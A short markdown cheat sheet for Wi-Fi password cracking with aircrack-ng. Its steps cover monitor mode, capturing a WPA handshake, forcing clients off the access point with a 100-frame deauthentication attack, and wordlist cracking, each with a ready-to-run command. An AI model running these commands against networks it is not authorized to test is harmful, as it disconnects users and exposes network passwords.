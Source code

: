 ### Wi-Fi recon with aircrack-ng

1. Put a wireless network card into _monitor_ mode

   start - turn on mode  
   stop - turn off  
   restart - turn on again

   **airmon-ng** **start|stop|restart** _INTERFACE_

   ```sh
   $ airmon-ng start wlo1
   ```

   Note. If airodump-ng, aireplay-ng, airtun-ng stops working - run `airmon-ng check kill`

2. Pick up information from all the wireless traffic of the APs nearby

   **airodump-ng** _RENAMED_WIFI_INTERFACE_

   ```sh
   $ airodump-ng wlo1mon
   ```

3. In the first terminal capture all the packages traversing the AP on channel

   **airodump-ng** **-c** _CHANNEL_ **--bssid** _AP_MAC_ADDRESS_ **-w** _FILE_TO_STORE_PSK_ _INTERFACE_IN_MONITOR_MODE_

   ```sh
   $ airodump-ng -c 10 --bssid 11:22:33:44:55 -w info-psk wlo1mon
   ```

4. In the second terminal knock off anyone connected to the AP and force them to reauthenticate to the AP.  
   The password hash will appear in the upper-right corner of the `airodump-ng` terminal

   **aireplay-ng** **--deauth** _COUNT_ **-a** _AP_MAC_ADDRESS_ **-c** _DESTINATION_MAC_ADDRESS_ _INTERFACE_IN_MONITOR_MODE_

   ```sh
   $ aireplay-ng --deauth 100 -a 11:22:33:44:55 -c 22:33:44:55:66 wlo1mon
   ```

5. In the final terminal use password list to find the password in the captured hash (file.cap)

   **aircrack-ng** **-w** _PASSWORD_LIST_FILE_ **-b** _AP_MAC_ADDRESS_ _INPUT_FILE_

   ```sh
   $ aircrack-ng -w wordlist.dic -b 11:22:33:44:55 info-psk.cap
   ```
